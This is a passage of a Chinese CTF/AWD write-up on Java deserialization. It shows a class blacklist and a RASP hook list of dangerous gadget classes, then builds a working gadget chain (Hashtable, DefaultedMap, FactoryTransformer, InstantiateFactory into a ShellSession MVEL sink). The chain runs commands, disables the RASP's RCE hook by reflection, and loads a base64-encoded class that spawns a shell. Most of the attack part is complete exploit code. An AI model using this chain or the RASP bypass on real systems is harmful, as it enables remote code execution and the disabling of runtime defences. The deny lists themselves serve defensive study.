"org.hibernate.type.ComponentType", "org.hibernate.type.Type", "org.jboss.interceptor.builder.InterceptionModelBuilder", "org.jboss.interceptor.builder.MethodReference", "org.jboss.interceptor.proxy.DefaultInvocationContextFactory", "org.jboss.interceptor.proxy.InterceptorMethodHandler", "org.jboss.interceptor.reader.ClassMetadataInterceptorReference", "org.jboss.interceptor.reader.DefaultMethodMetadata", "org.jboss.interceptor.reader.ReflectiveClassMetadata", "org.jboss.interceptor.reader.SimpleInterceptorMetadata", "org.jboss.interceptor.spi.context.InvocationContextFactory", "org.jboss.interceptor.spi.instance.InterceptorInstantiator", "org.jboss.interceptor.spi.metadata.ClassMetadata", "org.jboss.interceptor.spi.metadata.InterceptorReference", "org.jboss.interceptor.spi.metadata.MethodMetadata", "org.jboss.interceptor.spi.model.InterceptionModel", "org.jboss.interceptor.spi.model.InterceptionType", "org.jboss.remoting3.Channel", "org.jboss.remoting3.Connection", "org.jboss.remoting3.Endpoint", "org.jboss.remoting3.OpenListener", "org.jboss.remoting3.Remoting", "org.jboss.remoting3.remote.HttpUpgradeConnectionProviderFactory", "org.jboss.remoting3.spi.ConnectionHandler", "org.jboss.remoting3.spi.ConnectionHandlerContext", "org.jboss.remoting3.spi.ConnectionHandlerFactory", "org.jboss.util.propertyeditor.DocumentEditor", "org.jboss.weld.interceptor.builder.InterceptionModelBuilder", "org.jboss.weld.interceptor.builder.MethodReference", "org.jboss.weld.interceptor.proxy.DefaultInvocationContextFactory", "org.jboss.weld.interceptor.proxy.InterceptorMethodHandler", "org.jboss.weld.interceptor.reader.ClassMetadataInterceptorReference", "org.jboss.weld.interceptor.reader.DefaultMethodMetadata", "org.jboss.weld.interceptor.reader.ReflectiveClassMetadata", "org.jboss.weld.interceptor.reader.SimpleInterceptorMetadata", "org.jboss.weld.interceptor.spi.context.InvocationContextFactory", "org.jboss.weld.interceptor.spi.instance.InterceptorInstantiator", "org.jboss.weld.interceptor.spi.metadata.ClassMetadata", "org.jboss.weld.interceptor.spi.metadata.InterceptorReference", "org.jboss.weld.interceptor.spi.metadata.MethodMetadata", "org.jboss.weld.interceptor.spi.model.InterceptionModel", "org.jboss.weld.interceptor.spi.model.InterceptionType", "org.jdom.Document", "org.jdom.Element", "org.jdom.input.SAXBuilder", "org.jdom.transform.XSLTransformer", "org.jdom2.transform.XSLTransformer", "org.jsecurity.realm.jndi.JndiRealmFactory", "org.mozilla.javascript.**", "org.mozilla.javascript.Callable", "org.mozilla.javascript.ClassCache", "org.mozilla.javascript.Context", "org.mozilla.javascript.IdScriptableObject", "org.mozilla.javascript.MemberBox", "org.mozilla.javascript.NativeError", "org.mozilla.javascript.NativeJavaArray", "org.mozilla.javascript.NativeJavaMethod", "org.mozilla.javascript.NativeJavaObject", "org.mozilla.javascript.NativeObject", "org.mozilla.javascript.Scriptable", "org.mozilla.javascript.ScriptableObject", "org.mozilla.javascript.tools.shell.Environment", "org.python.core.PyBytecode", "org.python.core.PyFunction", "org.python.core.PyObject", "org.python.core.PyString", "org.python.core.PyStringMap", "org.quartz.utils.JNDIConnectionProvider", "org.reflections.Reflections", "org.slf4j.ext.EventData", "org.springframework.aop.TargetSource", "org.springframework.aop.config.MethodLocatingFactoryBean", "org.springframework.aop.framework.AdvisedSupport", "org.springframework.aop.framework.JdkDynamicAopProxy", "org.springframework.aop.support.AbstractBeanFactoryPointcutAdvisor", "org.springframework.aop.target.SingletonTargetSource", "org.springframework.beans.factory.ObjectFactory", "org.springframework.beans.factory.config.BeanReferenceFactoryBean", "org.springframework.beans.factory.config.PropertyPathFactoryBean", "org.springframework.beans.factory.support.AutowireUtils$ObjectFactoryDelegatingInvocationHandler", "org.springframework.core.SerializableTypeWrapper.$MethodInvokeTypeProvider", "org.springframework.web.servlet.handler.HandlerInterceptorAdapter", "org.springframework.web.servlet.mvc.annotation.DefaultAnnotationHandlerMapping", "org.springframework.web.servlet.mvc.method.annotation.RequestMappingHandlerMapping", "org.springframework.web.servlet.support.RequestContextUtils", "org.xnio.FutureResult", "org.xnio.IoFuture", "org.xnio.OptionMap", "org.xnio.Options", "org.xnio.Result", "org.xnio.Xnio", "org.xnio.XnioWorker", "org.xnio.ssl.JsseXnioSsl"};
10
11 public SecurityObjectInputStream(InputStream inputStream) throws IOException {
12 super(inputStream);
13 }
14
15 @Override // java.io.ObjectInputStream
16 protected Class resolveClass(ObjectStreamClass cls) throws IOException, ClassNotFoundException {
17 if (!contains(cls.getName())) {
18 return super.resolveClass(cls);
19 }
20 throw new InvalidClassException("Unexpected serialized class", cls.getName());
21 }
22
23 public static boolean contains(String targetValue) {
24 for (String forbiddenPackage : blacklist) {
25 if (targetValue.contains(forbiddenPackage)) {
26 return true;
27 }
28 }
29 return false;
30 }
31}
Hook.json
1"SerialHook": {
2 "doSerialHook": true,
3 "serialClassName": "org/apache/shiro/io/ClassResolvingObjectInputStream",
4 "dangerClasses": [
5 "org.springframework.transaction.support.AbstractPlatformTransactionManager",
6 "java.rmi.server.UnicastRemoteObject",
7 "java.rmi.server.RemoteObjectInvocationHandler",
8 "com.bea.core.repackaged.springframework.transaction.support.AbstractPlatformTransactionManager",
9 "java.rmi.server.RemoteObject",
10 "com.tangosol.coherence.rest.util.extractor.MvelExtractor",
11 "java.lang.Runtime",
12 "oracle.eclipselink.coherence.integrated.internal.cache.LockVersionExtractor",
13 "org.eclipse.persistence.internal.descriptors.MethodAttributeAccessor",
14 "org.eclipse.persistence.internal.descriptors.InstanceVariableAttributeAccessor",
15 "org.apache.commons.fileupload.disk.DiskFileItem",
16 "oracle.jdbc.pool.OraclePooledConnection",
17 "com.tangosol.util.extractor.ReflectionExtractor",
18 "com.tangosol.internal.util.SimpleBinaryEntry",
19 "com.tangosol.coherence.component.util.daemon.queueProcessor.service.grid.partitionedService.PartitionedCache$Storage$BinaryEntry",
20 "com.sun.rowset.JdbcRowSetImpl",
21 "org.eclipse.persistence.internal.indirection.ProxyIndirectionHandler",
22 "bsh.XThis",
23 "bsh.Interpreter",
24 "com.mchange.v2.c3p0.PoolBackedDataSource",
25 "com.mchange.v2.c3p0.impl.PoolBackedDataSourceBase",
26 "org.apache.commons.beanutils.BeanComparator",
27 "java.lang.reflect.Proxy",
28 "clojure.lang.PersistentArrayMap",
29 "org.apache.commons.io.output.DeferredFileOutputStream",
30 "org.apache.commons.io.output.ThresholdingOutputStream",
31 "org.apache.wicket.util.upload.DiskFileItem",
32 "org.apache.wicket.util.io.DeferredFileOutputStream",
33 "org.apache.wicket.util.io.ThresholdingOutputStream",
34 "com.sun.org.apache.bcel.internal.util.ClassLoader",
35 "com.sun.syndication.feed.impl.ObjectBean",
36 "org.springframework.beans.factory.ObjectFactory",
37 "org.springframework.aop.framework.AdvisedSupport",
38 "org.springframework.aop.target.SingletonTargetSource",
39 "com.vaadin.data.util.NestedMethodProperty",
40 "com.vaadin.data.util.PropertysetItem",
41 "javax.management.BadAttributeValueExpException",
42 "org.apache.myfaces.context.servlet.FacesContextImpl",
43 "org.apache.myfaces.context.servlet.FacesContextImplBase",
44 "org.apache.commons.collections.functors.InvokerTransformer",
45 "org.apache.commons.collections.functors.InstantiateTransformer",
46 "org.apache.commons.collections4.functors.InvokerTransformer",
47 "org.apache.commons.collections4.functors.InstantiateTransformer",
48 "java.lang.ProcessBuilder",
49 "com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl",
50 "java.security.SignedObject",
51 "com.sun.jndi.ldap.LdapAttribute",
52 "javax.naming.InitialContext",
53 "org.springframework.aop.framework.JdkDynamicAopProxy",
54 "org.springframework.aop.aspectj",
55 "org.apache.xbean.naming.context",
56 "JSONArray",
57 "POJONode",
58 "ToStringBean",
59 "EqualsBean",
60 "ProxyLazyValue",
61 "SwingLazyValue",
62 "UIDefaults",
63 "XString",
64 "org.springframework.cache.interceptor.BeanFactoryCacheOperationSourceAdvisor",
65 "org.springframework.aop.aspectj.AspectInstanceFactory",
66 "org.slf4j",
67 "groovy",
68 "sun.print.UnixPrintService"
69 ]
70 }
Sink: ShellSession
ShellSession 的主要作用是提供一个命令行环境（类似于 Bash 或 Windows 的 cmd），让用户可以输入并执行 MVEL 表达式以及预定义的一些内部命令，比如：ls、help之类的


我们来看ShellSession的单参数String的构造方法

这里会将参数传入exec方法，我们跟进

这里就是将命令按行分割后写入缓冲区，接着调用_exec执行，跟进

这里会将命令进行分割，判断第一个 token ，也就是inTokens[0]， 是否是一个预定义的内部命令。如果是内部命令，它会调用该命令对应的 execute 方法来执行，并传递后续的 tokens 作为参数，如果不是则会进入到else，并尝试作为MVEL 表达式来执行


当执行MVEL表达式失败时（例如，对于像 ls -l 这样的非法表达式），_exec() 方法并不会立即报错，而是会启动一个智能的回退机制：如果 $COMMAND_PASSTHRU 环境变量被设为 true，它会转而将该命令视为一个操作系统的原生命令，并遍历 $PATH 环境变量中的所有目录来搜索对应的可执行文件，一旦找到，便会通过 Runtime.getRuntime().exec() 在操作系统层面启动该程序。既然都能执行mvel表达式了，感觉意义不大。可以直接利用mvel表达式命令执行。
ShellSession help = new ShellSession("Runtime.getRuntime().exec(\"calc\")");

这道题我们用ShellSession作为Sink点
Source: Hashtable

可以看到CC7的Source Hashtable没有被waf，而且Defaultedmap也没有办，基本上可以确定cc7前半条链子都是可用的，如下
1import com.tangosol.coherence.mvel2.sh.ShellSession;
2import org.apache.commons.collections.map.DefaultedMap;
3import org.apache.commons.collections.map.LinkedMap;
4
5import java.io.*;
6import java.util.Base64;
7import java.util.Hashtable;
8import java.util.Map;
9
10
11public class EXP {
12 public static void main(String[] args) throws IOException, ClassNotFoundException {
13// new ShellSession("Runtime.getRuntime().exec(\"calc\")");
14 LinkedMap linkedMap1 = new LinkedMap();
15 LinkedMap linkedMap2 = new LinkedMap();
16 Map decoratemap1 = DefaultedMap.decorate(linkedMap1, "xrntkk1");
17 decoratemap1.put("xrntkk1", 1);
18 Map decoratemap2 = DefaultedMap.decorate(linkedMap2, "xrntkk2");
19 decoratemap2.put("xrntkk2", 2);
20 Hashtable<Object, Object> ObjectHashtable = new Hashtable<>();
21 ObjectHashtable.put(decoratemap1, "xrntkk1");
22 ObjectHashtable.put(decoratemap2, "xrntkk2");
23 System.out.println(linkedMap1.hashCode());
24 System.out.println(linkedMap1.hashCode());
25 serialize(ObjectHashtable);
26 unserialize();
27
28 }
29 public static String serializeBase64(Object obj) throws IOException {
30 ByteArrayOutputStream byteArrayOutputStream = new ByteArrayOutputStream();
31 ObjectOutputStream objectOutputStream = new ObjectOutputStream(byteArrayOutputStream);
32 objectOutputStream.writeObject(obj);
33 objectOutputStream.close();
34
35 return Base64.getEncoder().encodeToString(byteArrayOutputStream.toByteArray());
36 }
37 public static void serialize(Object o) throws IOException {
38 ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("ser.bin"));
39 oos.writeObject(o);
40 }
41
42 public static Object unserialize() throws IOException, ClassNotFoundException {
43 SecurityObjectInputStream ois = new SecurityObjectInputStream(new FileInputStream("ser.bin"));
44 Object o = ois.readObject();
45 return o;
46 }
47
48}
实现任意transformer方法调用
中间链子
org.apache.commons.collections4.functors.InstantiateFactory#create

InstantiateFactory可以调用任意构造方法，而FactoryTransformer的transform方法可以调用Factory类型的create方法

所以链子如下
1import com.tangosol.coherence.mvel2.sh.ShellSession;
2import org.apache.commons.collections.functors.FactoryTransformer;
3import org.apache.commons.collections.functors.InstantiateFactory;
4import org.apache.commons.collections.map.DefaultedMap;
5import org.apache.commons.collections.map.LinkedMap;
6
7import java.io.*;
8import java.util.Base64;
9import java.util.Hashtable;
10import java.util.Map;
11
12
13public class EXP {
14 public static void main(String[] args) throws IOException, ClassNotFoundException {
15// new ShellSession("Runtime.getRuntime().exec(\"calc\")");
16
17 FactoryTransformer factoryTransformer = new FactoryTransformer(new InstantiateFactory(ShellSession.class, new Class[]{String.class}, new Object[]{"Runtime.getRuntime().exec(\"calc\")"}));
18 LinkedMap linkedMap1 = new LinkedMap();
19 LinkedMap linkedMap2 = new LinkedMap();
20 Map decoratemap1 = DefaultedMap.decorate(linkedMap1, "xrntkk1");
21 decoratemap1.put("xrntkk1", 1);
22 Map decoratemap2 = DefaultedMap.decorate(linkedMap2, factoryTransformer);
23 decoratemap2.put("xrntkk2", 2);
24 Hashtable<Object, Object> ObjectHashtable = new Hashtable<>();
25 ObjectHashtable.put(decoratemap1, "xrntkk1");
26 ObjectHashtable.put(decoratemap2, "xrntkk2");
27 System.out.println(linkedMap1.hashCode());
28 System.out.println(linkedMap1.hashCode());
29 serialize(ObjectHashtable);
30 unserialize();
31
32
33
34 }
35 public static String serializeBase64(Object obj) throws IOException {
36 ByteArrayOutputStream byteArrayOutputStream = new ByteArrayOutputStream();
37 ObjectOutputStream objectOutputStream = new ObjectOutputStream(byteArrayOutputStream);
38 objectOutputStream.writeObject(obj);
39 objectOutputStream.close();
40
41 return Base64.getEncoder().encodeToString(byteArrayOutputStream.toByteArray());
42 }
43 public static void serialize(Object o) throws IOException {
44 ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("ser.bin"));
45 oos.writeObject(o);
46 }
47
48 public static Object unserialize() throws IOException, ClassNotFoundException {
49 SecurityObjectInputStream ois = new SecurityObjectInputStream(new FileInputStream("ser.bin"));
50 Object o = ois.readObject();
51 return o;
52 }
53
54}
Rasp bypass

还有最后一关，也就是rasp

在awd-rasp里面有一个叫doRCEHook的静态变量，我们可以从线程中拿到RceHook类，并通过反射将其设置为false，当其为false的时候就不会拦截命令执行。
1import com.tangosol.coherence.mvel2.sh.ShellSession;
2import org.apache.commons.collections.functors.FactoryTransformer;
3import org.apache.commons.collections.functors.InstantiateFactory;
4import org.apache.commons.collections.map.DefaultedMap;
5import org.apache.commons.collections.map.LinkedMap;
6
7import java.io.*;
8import java.lang.reflect.Field;
9import java.util.Base64;
10import java.util.Hashtable;
11import java.util.Map;
12import java.util.Set;
13
14
15public class EXP {
16 public static void main(String[] args) throws IOException, ClassNotFoundException, NoSuchFieldException, IllegalAccessException {
17// new ShellSession("Runtime.getRuntime().exec(\"calc\")");
18// Runtime.getRuntime().load("D:\\Downloads\\src-new\\awd-bypass\\test.dll");
19// ClassLoader classLoader = Thread.currentThread().getContextClassLoader();
20// Class<?> aClass = classLoader.loadClass("com.rasp.hooks.RceHook");
21// System.out.println(aClass);
22// Field[] declaredFields = aClass.getDeclaredFields();
23// for (Field declaredField : declaredFields) {
24// System.out.println(declaredField);
25// }
26
27 FactoryTransformer factoryTransformer = new FactoryTransformer(new InstantiateFactory(ShellSession.class, new Class[]{String.class}, new Object[]{"doRCEHook=Thread.currentThread().getContextClassLoader().loadClass(\"com.rasp.hooks.RceHook\").getDeclaredField(\"doRCEHook\");doRCEHook.setAccessible(true);doRCEHook.set(null, false);Runtime.getRuntime().exec(\"calc\")"}));
28
29 LinkedMap linkedMap1 = new LinkedMap();
30 LinkedMap linkedMap2 = new LinkedMap();
31 Map decoratemap1 = DefaultedMap.decorate(linkedMap1, "xrntkk1");
32 decoratemap1.put("xrntkk1", 1);
33 Map decoratemap2 = DefaultedMap.decorate(linkedMap2, factoryTransformer);
34 decoratemap2.put("xrntkk2", 2);
35 Hashtable<Object, Object> ObjectHashtable = new Hashtable<>();
36 ObjectHashtable.put(decoratemap1, "xrntkk1");
37 ObjectHashtable.put(decoratemap2, "xrntkk2");
38// System.out.println(linkedMap1.hashCode());
39// System.out.println(linkedMap1.hashCode());
40// serialize(ObjectHashtable);
41// unserialize();
42 String s = serializeBase64(ObjectHashtable);
43 System.out.println(s);
44 }
45 public static String serializeBase64(Object obj) throws IOException {
46 ByteArrayOutputStream byteArrayOutputStream = new ByteArrayOutputStream();
47 ObjectOutputStream objectOutputStream = new ObjectOutputStream(byteArrayOutputStream);
48 objectOutputStream.writeObject(obj);
49 objectOutputStream.close();
50
51 return Base64.getEncoder().encodeToString(byteArrayOutputStream.toByteArray());
52 }
53 public static void serialize(Object o) throws IOException {
54 ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("ser.bin"));
55 oos.writeObject(o);
56 }
57
58 public static Object unserialize() throws IOException, ClassNotFoundException {
59 SecurityObjectInputStream ois = new SecurityObjectInputStream(new FileInputStream("ser.bin"));
60 Object o = ois.readObject();
61 return o;
62 }
63
64}
加载任意字节码
1import com.tangosol.coherence.mvel2.sh.ShellSession;
2import org.apache.commons.collections.functors.FactoryTransformer;
3import org.apache.commons.collections.functors.InstantiateFactory;
4import org.apache.commons.collections.map.DefaultedMap;
5import org.apache.commons.collections.map.LinkedMap;
6
7import java.io.*;
8import java.lang.reflect.Field;
9import java.lang.reflect.InvocationTargetException;
10import java.lang.reflect.Method;
11import java.util.Base64;
12import java.util.Hashtable;
13import java.util.Map;
14import java.util.Set;
15
16
17public class EXP {
18 public static void main(String[] args) throws IOException, ClassNotFoundException, NoSuchFieldException, IllegalAccessException, NoSuchMethodException, InvocationTargetException, InstantiationException {
19// new ShellSession("Runtime.getRuntime().exec(\"calc\")");
20// Runtime.getRuntime().load("D:\\Downloads\\src-new\\awd-bypass\\test.dll");
21// ClassLoader classLoader = Thread.currentThread().getContextClassLoader();
22// Class<?> aClass = classLoader.loadClass("com.rasp.hooks.RceHook");
23// System.out.println(aClass);
24// Field[] declaredFields = aClass.getDeclaredFields();
25// for (Field declaredField : declaredFields) {
26// System.out.println(declaredField);
27// }
28
29// FactoryTransformer factoryTransformer = new FactoryTransformer(new InstantiateFactory(ShellSession.class, new Class[]{String.class}, new Object[]{"doRCEHook=Thread.currentThread().getContextClassLoader().loadClass(\"com.rasp.hooks.RceHook\").getDeclaredField(\"doRCEHook\");doRCEHook.setAccessible(true);doRCEHook.set(null, false);Runtime.getRuntime().exec(\"calc\")"}));
30
31 FactoryTransformer factoryTransformer = new FactoryTransformer(new InstantiateFactory(ShellSession.class, new Class[]{String.class}, new Object[]{"doRCEHook=Thread.currentThread().getContextClassLoader().loadClass(\"com.rasp.hooks.RceHook\").getDeclaredField(\"doRCEHook\");doRCEHook.setAccessible(true);doRCEHook.set(null, false);bytes = java.util.Base64.getDecoder().decode(\"yv66vgAAADIAQAEAbm9yZy9hcGFjaGUvY29sbGVjdGlvbnMvY295b3RlL2Rlc2VyaWFsaXphdGlvbi9zdGQvU3RyaW5nQ29sbGVjdGlvbkRlc2VyaWFsaXplcjZmOWY0OWQ2MDM4MzQ3YmQ4MTJkY2ZkMTgwMGM4MDRlBwABAQAQamF2YS9sYW5nL09iamVjdAcAAwEABGJhc2UBABJMamF2YS9sYW5nL1N0cmluZzsBAANzZXABAANjbWQBAAY8aW5pdD4BAAMoKVYBABNqYXZhL2xhbmcvRXhjZXB0aW9uBwALDAAJAAoKAAQADQEAB29zLm5hbWUIAA8BABBqYXZhL2xhbmcvU3lzdGVtBwARAQALZ2V0UHJvcGVydHkBACYoTGphdmEvbGFuZy9TdHJpbmc7KUxqYXZhL2xhbmcvU3RyaW5nOwwAEwAUCgASABUBABBqYXZhL2xhbmcvU3RyaW5nBwAXAQALdG9Mb3dlckNhc2UBABQoKUxqYXZhL2xhbmcvU3RyaW5nOwwAGQAaCgAYABsBAAN3aW4IAB0BAAhjb250YWlucwEAGyhMamF2YS9sYW5nL0NoYXJTZXF1ZW5jZTspWgwAHwAgCgAYACEBAAdjbWQuZXhlCAAjDAAFAAYJAAIAJQEAAi9jCAAnDAAHAAYJAAIAKQEABy9iaW4vc2gIACsBAAItYwgALQwACAAGCQACAC8BABhqYXZhL2xhbmcvUHJvY2Vzc0J1aWxkZXIHADEBABYoW0xqYXZhL2xhbmcvU3RyaW5nOylWDAAJADMKADIANAEABXN0YXJ0AQAVKClMamF2YS9sYW5nL1Byb2Nlc3M7DAA2ADcKADIAOAEACDxjbGluaXQ+AQAEY2FsYwgAOwoAAgANAQAEQ29kZQEADVN0YWNrTWFwVGFibGUAIQACAAQAAAADAAkABQAGAAAACQAHAAYAAAAJAAgABgAAAAIAAQAJAAoAAQA+AAAAhAAEAAIAAABTKrcADhIQuAAWtgAcEh62ACKZABASJLMAJhIoswAqpwANEiyzACYSLrMAKga9ABhZA7IAJlNZBLIAKlNZBbIAMFNMuwAyWSu3ADW2ADlXpwAETLEAAQAEAE4AUQAMAAEAPwAAABcABP8AIQABBwACAAAJZQcADPwAAAcABAAIADoACgABAD4AAAAaAAIAAAAAAA4SPLMAMLsAAlm3AD1XsQAAAAAAAA==\");systemClassLoader = ClassLoader.getSystemClassLoader();defineClass = java.lang.Class.forName(\"java.lang.ClassLoader\").getDeclaredMethod(\"defineClass\", java.lang.Class.forName(\"java.lang.String\"), java.lang.Class.forName(\"[B\"), java.lang.Integer.TYPE, java.lang.Integer.TYPE);defineClass.setAccessible(true);defineClass.invoke(systemClassLoader, \"org.apache.collections.coyote.deserialization.std.StringCollectionDeserializer6f9f49d6038347bd812dcfd1800c804e\",bytes,0, bytes.length);systemClassLoader.loadClass(\"org.apache.collections.coyote.deserialization.std.StringCollectionDeserializer6f9f49d6038347bd812dcfd1800c804e\").newInstance();"}));
32
33
34 LinkedMap linkedMap1 = new LinkedMap();
35 LinkedMap linkedMap2 = new LinkedMap();
36 Map decoratemap1 = DefaultedMap.decorate(linkedMap1, "xrntkk1");
37 decoratemap1.put("xrntkk1", 1);
38 Map decoratemap2 = DefaultedMap.decorate(linkedMap2, factoryTransformer);
39 decoratemap2.put("xrntkk2", 2);
40 Hashtable<Object, Object> ObjectHashtable = new Hashtable<>();
41 ObjectHashtable.put(decoratemap1, "xrntkk1");
42 ObjectHashtable.put(decoratemap2, "xrntkk2");
43// System.out.println(linkedMap1.hashCode());
44// System.out.println(linkedMap1.hashCode());
45// serialize(ObjectHashtable);
46// unserialize();
47 String s = serializeBase64(ObjectHashtable);
48 System.out.println(s);
49 }
50 public static String serializeBase64(Object obj) throws IOException {
51 ByteArrayOutputStream byteArrayOutputStream = new ByteArrayOutputStream();
52 ObjectOutputStream objectOutputStream = new ObjectOutputStream(byteArrayOutputStream);
53 objectOutputStream.writeObject(obj);
54 objectOutputStream.close();
55
56 return Base64.getEncoder().encodeToString(byteArrayOutputStream.toByteArray());
57 }
58 public static void serialize(Object o) throws IOException {
59 ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("ser.bin"));
60 oos.writeObject(o);
61 }
62
63 public static Object unserialize() throws IOException, ClassNotFoundException {
64 SecurityObjectInputStream ois = new SecurityObjectInputStream(new FileInputStream("ser.bin"));
65 Object o = ois.readObject();
66 return o;
67 }
68
69}